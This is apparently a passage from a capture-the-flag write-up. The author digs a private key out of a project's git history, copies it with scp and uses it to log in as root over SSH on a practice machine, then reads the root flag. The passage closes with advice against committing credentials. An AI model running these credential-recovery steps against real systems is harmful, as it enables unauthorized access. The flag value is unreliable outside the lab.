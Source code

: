 Since the "developer" makes the reference that he needs to revert the change
to the "proper" key, what if we looked through his/her `git` commit history
to see what was changed?

```
roosa@gitter:~/work/blogfeed$ git log --oneline
7ff507d Use Base64 for pickle feed loading
26ae6c8 Set PIN to make debugging faster as it will no longer change every time the application code is changed. Remember to remove before production use.
cec54d8 Debug support added to make development more agile.
ca3e768 Blogfeed app, initial version.
dfebfdf Gunicorn startup script
33e87c3 reverted accidental commit with proper key
d387abf add key for feed integration from tnerprise backend
1422e5a Initial commit
```

A quick diff between commits when the "developer" fixed his/her error with
the wrong key indeed shows a different private key was committed.

```
roosa@gitter:~/work/blogfeed$ git diff d387abf 33e87c3
diff --git a/resources/integration/authcredentials.key b/resources/integration/authcredentials.key
index 44c981f..f4bde49 100644
--- a/resources/integration/authcredentials.key
+++ b/resources/integration/authcredentials.key
```

So let's pop back in time to `d387abf` and see what we can do with the
"before" key..

```
$ git checkout d387abf
Note: checking out 'd387abf'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by performing another checkout.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -b with the checkout command again. Example:

  git checkout -b <new-branch-name>

HEAD is now at d387abf... add key for feed integration from tnerprise backend
```

Grabbing the key and attempting to use it to authenticate as root..

```
$ scp -i id_rsa.roosa roosa@10.10.10.91:/home/roosa/work/blogfeed/resources/integration/authcredentials.key authcredentials.key.old
$ ssh root@10.10.10.91 -i authcredentials.key.old
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Mon Mar 26 06:23:48 2018 from 192.168.57.1
root@gitter:~# cat root.txt
d4fe1e7f7187407eebdd3209cb1ac7b3
```

.. worked!! Very cool. Should never be storing credentials in your source
repository.
